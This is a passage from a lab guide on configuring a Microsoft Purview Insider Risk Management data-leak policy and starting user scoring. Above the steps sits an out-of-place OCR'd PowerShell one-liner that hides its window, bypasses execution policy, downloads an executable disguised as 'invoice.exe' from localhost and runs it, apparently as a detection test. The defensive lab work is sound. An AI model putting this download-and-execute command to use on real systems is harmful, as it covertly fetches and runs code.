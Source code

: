 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```
13. On **Triggers for this policy** page, select Radio button near **User
    performs an exfiltration activity**. Under select which activities
    will trigger this policy, select all the available
    options especially **Download content from SharePoint**. and then
    select **Next**.

![A screenshot of a computer Description automatically
generated](./media/image141.png)

14. On **Triggering thresholds for this policy**, select **Use custom
    thresholds**. Set every threshold to **1** and select **Next**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image142.png)

15. Select the default settings on the **Indicators** page and
    select **Next**.

16. On **Decide whether to use default or custom indicator thresholds**,
    select **Customise thresholds**, use **1**, **2**, and **3** events for each stage
    respectively then select **Next**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image143.png)

17. On **Review settings and finish**, select **Submit**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image144.png)

18. On **Your policy was created**, select **Done**.

![A screenshot of a computer Description automatically
generated](./media/image145.png)

19. Keep the tab open and continue to the next task.

#### Step 2 – Score the policy

1.  Click on the new policy named **Data leaks by a user**. Select **Start
    scoring activity for users**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image146.png)

2.  In the **Reason field in the Add users to multiple policies** pane,
    type Testing the policy. In the **This should last for (choose between
    5 and 30 days)** field, select **10** days. Use the **Search user to add to
    policies** field. Add **MOD Admin**. Then click on **Start
    scoring activity**.

3.  Once you get the confirmation that you have started **Scoring
    activity for 1 user**, click **Close**.

You have successfully created the Insider risk management policies.

## Summary:

In this lab we explored setting up Insider Risk Management from
end-to-end. With your own subscription and licenses, you can also use
this lab guide to create an Azure setup that can also be used to create
various alerts (which includes sending emails with restricted data,
which is not possible from a trial subscription) for the Insider Risk
```